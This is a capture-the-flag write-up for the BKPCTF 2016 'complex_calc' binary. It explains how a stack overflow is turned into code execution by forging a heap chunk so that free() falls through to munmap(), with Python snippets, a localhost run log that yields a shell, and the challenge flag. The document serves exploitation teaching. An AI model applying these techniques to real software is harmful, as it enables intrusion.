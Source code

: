 ```yaml
---
layout: post
title: BKPCTF 2016 - Complex Calc
author: hugsy
---
```


The challenge is the sequel to `simple_calc`. If you haven't read our
[write-up](/2016/03/07/bkpctf-2016-simple-calc-writeup.html), now is the time :)


### Info ###

The vulnerable file is
[here](http://s000.tinyupload.com/?file_id=13818394247839189362).

{% highlight bash %}
~ $ file d60001db1a24eca410c5d102410c3311d34d832c
d60001db1a24eca410c5d102410c3311d34d832c: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=3ca876069b2b8dc3f412c6205592a1d7523ba9ea, not stripped
~ $ checksec.sh --file d60001db1a24eca410c5d102410c3311d34d832c
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   d60001db1a24eca410c5d102410c3311d34d832c
{% endhighlight %}


### Vulnerability ###

At the very first look, `simple_calc` and `complex_calc` look totally
similar. Both are statically compiled, same protections, the vulnerability is
located at the same spot (i.e. stack overflow with a malloc-ed buffer we fully
control). Let's do some bindiffing!

<!--more-->

One of my new toys for quite a few months now is IDA Python plugin
[diaphora](https://github.com/joxeankoret/diaphora) by Joxean Koret (aka
{% include icon-twitter.html username="matalaz" %}). By diffing then, the issue is immediately visible:

![bindiff](https://i.imgur.com/0tkaNNT.png)

The `free()` function was modified so we cannot benefit from the graceful exit
of the function by simply passing a NULL pointer. Now, `free()` will always
proceed with the address given as first parameter (therefore stored in $rdi).

So let's see how `free()`
works. [Some blogs](https://kitctf.de/writeups/0ctf2015/freenote/) already explain very well how
[Glibc heap is structured](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/)
and how
[heap](http://phrack.org/issues/57/9.html)
[corruptions](http://winesap.logdown.com/posts/261369-plaid-ctf-2015-plaiddb-writeup)
work. So
I will assume you know as well.

To stand on common ground, here is what a heap chunk looks like :

![heap](https://i.imgur.com/EVnKlBg.png)

So when `free()` is called, some checks are made to know how the chunk must be
deallocated:

   1. If it size is below `MMAP_THRESHOLD` (default 128KB), then the chunk is
      deallocated and inserted into the free chunk doubly linked list. The
      pointers of the list are updated using the `unlink` macro.
   1. If the size is higher than `MMAP_THRESHOLD`, then the chunk was not
      allocated via the `brk`/`sbrk` syscall, but mapped in memory via the
      syscall `mmap`. If this heap is mmaped, then it size will will be a
      multiple of 2 (i.e. size & 2 = 2).

This actually shows quite well in the flow graph:
![](https://i.imgur.com/omGULMz.png)

Since we control what is written in the heap (same method than `simple_calc`),
we can control whether we want to deallocate using `unlink` or `munmap` (simply
by or-ing the QWORD interpreter as the chunk size with 2). If we go for using
the regular deallocator, we need to fake our heap chunk in such a way that it will
pass all the checks performed later on. Any failure on the address will
`abort()` the program, making it enable to reach the `ret` instruction, and
therefore triggering our ROP chain.

On the other hand, the `munmap()` function is actually fairly straight-forward:

{% highlight bash %}
.text:0000000000435670 munmap          proc near               ; CODE XREF: __assert_fail_base+110
.text:0000000000435670                                         ; _nl_load_domain+4C9 ...
.text:0000000000435670                 mov     eax, 0Bh        ; Alternative name is '__munmap'
.text:0000000000435675                 syscall
.text:0000000000435677                 cmp     rax, -0FFFh
.text:000000000043567D                 jnb     __syscall_error
.text:0000000000435683                 retn
.text:0000000000435683 munmap          endp
{% endhighlight %}

If the syscall fails, it will nicely set $rax to a negative value and
return back to `free()`, which will return (in error as well but we don't care)
to our main loop, which can then return nicely too and trigger our
code. Perfect! Let's go with this!


### Exploitation ###

So we are going to use the arithmetic operators and result location in the
`.bss` since they are at known locations, bearing in mind that each of them is
only a DWORD (whereas we are here on x86-64 architecture). We want to set the
following mapping

{% highlight bash %}
.bss:00000000006C4A88 add_result      dd ?                    ;  previous chunk size
.bss:00000000006C4A8C                 align 10h
.bss:00000000006C4A90 div_operator_1  dd ?                    ; <-- chunk size (need to | 2 for flag IS_MMAPED)
.bss:00000000006C4A94 div_operator_2  dd ?                    ; <--
.bss:00000000006C4A98 div_result      dd ?                    ; <-- free (@ this chunk)
.bss:00000000006C4A9C                 align 10h
{% endhighlight %}

We will point the $rdi used by the `free()` call pointing to `div_result`. But
now which value should we use then for operator_1 and operator_2 ?

Let's go back to `free()` flow graph:
![](https://i.imgur.com/7ZEy4nD.png)

As we see, several conditions must be filled:

   1. `chunk_size = div_operator_2 | div_operator_1` (and **must** be divisible by 2).
   1. `prev_size  = dword_padding  | add_result`
   1. `0x0fff & ((@prev_size-prev_size) | (prev_size+size&0xfff...ff8)) == 0`

If we passed those checks, $rcx will have the address to `munmap()`, and $rsi
the range to deallocate. `add_result` is at 0x6C4A88 so we must ensure the three
last nibbles end with 0xa88 to nullify the substration. We decide to store in
`add_result` the value 0x0x11111a88 as the addition of 0x11110a88 and 0x1000

{% highlight python %}
    # set add_result
    s.read_until("=> ")
    op1 = 0x11110a88
    op2 = 0x00001000
    do_add(s, op1, op2)
    ok("prev_size=%#x+%#x=%#x" % (op2, op1, op1+op2))
{% endhighlight %}

Now that we have `prev_size`, we can make up a value for `size` too. But here is
the trick, the value of `size` will end in $rdi when `munmap` syscall will
happen. If we point to a valid address, it will be unmapped and our exploit will
fail. So to be safe, we will use a huge valid and let the kernel throw us away
:) Here we used 0x7fffdeaa0000.

`size = 0x7fffdeaa0000 - 0x11111a88 = 0x9ffffeee578`

Splitting the result into 2 DWORD and we have div_operator_1=0xfffeee578 and
div_operator_2=0x9f.

{% highlight python %}
    # set div_1 and div_2
    s.read_until("=> ")
    op2, op1  = 0x9f, 0xfffeee578 | 2
    do_div(s, op1, op2)
    ok("size=0x%.8x%.8x" % (op2, op1))
{% endhighlight %}

The rest of the exploit is exactly similar to the one used for `simple_calc`!

Fire up!
{% highlight python %}
$ ./complex_calc.py                                                                                                                                       [23:43]
[+] Connected to localhost:5500
[*] Attach to gdb and press enter

[+] Running 47 calculations
[+] Building fake chunk 0x6c4a98
[+] prev_size=0x1000+0x11110a88=0x11111a88
[+] size=0x0000009ffffeee57a
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '
cat key
{% endhighlight %}

And we get `BKPCTF{th3 l4st 1 2 3z}`

The full exploit is [here](https://gist.github.com/hugsy/7bcb5db17b75a86ae3bd).
